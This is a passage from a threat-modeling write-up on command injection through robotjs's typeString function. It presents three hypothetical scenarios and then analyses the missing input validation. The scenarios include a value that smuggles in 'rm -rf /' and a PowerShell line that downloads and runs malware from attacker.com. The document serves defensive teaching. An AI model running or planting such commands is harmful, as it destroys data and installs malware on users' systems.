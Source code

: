 ## 2. Deep Analysis of Attack Surface

### 2.1 Code Review and Threat Modeling Examples

Let's consider a few hypothetical (but realistic) scenarios to illustrate the process:

**Scenario 1:  "Automated Script Execution" Feature**

*   **Code:**  The application has a feature that allows users to enter a script name, which is then executed by typing the script name into a terminal window using `robotjs.typeString()`.
*   **Threat Model:** An attacker enters a script name like `my_script; rm -rf /`.  The application types this entire string into the terminal.
*   **Vulnerability:**  The application lacks any input validation or sanitization.  It blindly trusts the user-provided script name.
*   **Impact:**  The attacker's malicious command (`rm -rf /`) is executed, potentially deleting the entire file system.

**Scenario 2:  "Text Editor with Run Command"**

*   **Code:**  A text editor built with `robotjs` has a "Run Command" feature.  The user types a command into a dialog box, and the application uses `robotjs.typeString()` to enter the command into the editor's built-in terminal emulator.
*   **Threat Model:**  An attacker enters a command like `powershell -Command "Invoke-WebRequest -Uri http://attacker.com/malware.exe -OutFile C:\malware.exe; C:\malware.exe"`.
*   **Vulnerability:**  The application might have *some* input validation, but it's likely insufficient to prevent all forms of command injection, especially on Windows with PowerShell's complex syntax.
*   **Impact:**  The attacker downloads and executes malware on the user's system.

**Scenario 3:  "Automated Form Filling" (Indirect Injection)**

*   **Code:**  The application uses `robotjs` to automate filling out a web form.  One of the form fields is a "Comments" field, which is later processed by a server-side script.
*   **Threat Model:**  The attacker enters a comment containing shell metacharacters (e.g., backticks, semicolons) that are not properly escaped by the server-side script.  The `robotjs` input itself isn't directly injected into a shell, but it *triggers* a server-side command injection.
*   **Vulnerability:**  While the primary vulnerability is on the server-side, the use of `robotjs` to populate the form facilitates the attack.  The application might not be aware of the server-side vulnerability.
*   **Impact:**  The attacker compromises the web server, potentially gaining access to sensitive data or the ability to execute arbitrary code.

### 2.2 Vulnerability Analysis (Detailed)

The core vulnerability in all these scenarios is the **lack of strict input validation and sanitization** before passing user-influenced data to `robotjs`'s keyboard input functions.  Specifically:

*   **Missing Whitelisting:**  The application does not restrict the allowed characters to a small, safe set.  It allows potentially dangerous characters like semicolons, pipes, backticks, ampersands, and redirection symbols.
*   **Ineffective Blacklisting:**  The application might attempt to blacklist certain characters or commands, but this approach is inherently flawed.  Attackers can often bypass blacklists using alternative encodings, obfuscation techniques, or platform-specific command variations.
*   **Lack of Contextual Awareness:**  The application does not consider the context in which the `robotjs` input will be used.  It doesn't differentiate between safe text input and potentially dangerous command-line input.
*   **Trusting User Input:**  The application fundamentally trusts that the user will only provide benign input.  This is a dangerous assumption in any security context.
* **Lack of escaping:** Even if some characters are blacklisted, the application might not properly escape special characters that have meaning in the target environment (e.g., the shell).
